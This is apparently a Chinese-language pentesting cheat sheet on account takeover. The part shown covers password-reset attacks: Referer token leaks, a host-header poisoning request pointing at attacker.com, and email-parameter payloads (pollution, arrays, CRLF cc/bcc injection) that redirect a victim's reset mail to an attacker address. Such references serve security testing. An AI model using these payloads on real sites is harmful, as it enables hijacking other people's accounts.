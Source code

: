 * [密码重置功能](#密码重置功能)
    * [通过Referrer泄露密码重置令牌](#通过referrer泄露密码重置令牌)
    * [通过密码重置投毒进行账户接管](#通过密码重置投毒进行账户接管)
    * [通过Email参数重置密码](#通过email参数重置密码)
    * [API参数中的IDOR漏洞](#api参数中的idor漏洞)
    * [弱密码重置令牌](#弱密码重置令牌)
    * [泄露密码重置令牌](#泄露密码重置令牌)
    * [通过用户名冲突重置密码](#通过用户名冲突重置密码)
    * [Unicode规范化问题导致的账户接管](#unicode规范化问题导致的账户接管)
* [通过Web漏洞进行账户接管](#通过web漏洞进行账户接管)
    * [通过跨站脚本进行账户接管](#通过跨站脚本进行账户接管)
    * [通过HTTP请求走私进行账户接管](#通过http请求走私进行账户接管)
    * [通过CSRF进行账户接管](#通过csrf进行账户接管)
    * [通过JWT进行账户接管](#通过jwt进行账户接管)
* [防御措施](#防御措施)
* [参考资料](#参考资料)

## 密码重置功能

### 通过Referrer泄露密码重置令牌

1. 向您的电子邮件地址请求密码重置
2. 点击密码重置链接
3. 不要更改密码
4. 点击任何第三方网站（例如：Facebook、Twitter）
5. 在Burp Suite代理中拦截请求
6. 检查referer头是否泄露了密码重置令牌

### 通过密码重置投毒进行账户接管

1. 在Burp Suite中拦截密码重置请求
2. 在Burp Suite中添加或编辑以下头信息：`Host: attacker.com`，`X-Forwarded-Host: attacker.com`
3. 转发带有修改后头的请求

    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```

4. 查找基于*host头*的密码重置URL，例如：`https://attacker.com/reset-password.php?token=TOKEN`

### 通过Email参数重置密码

```powershell
# 参数污染
email=victim@mail.com&email=hacker@mail.com

# 电子邮件数组
{"email":["victim@mail.com","hacker@mail.com"]}

# 抄送
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# 分隔符
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
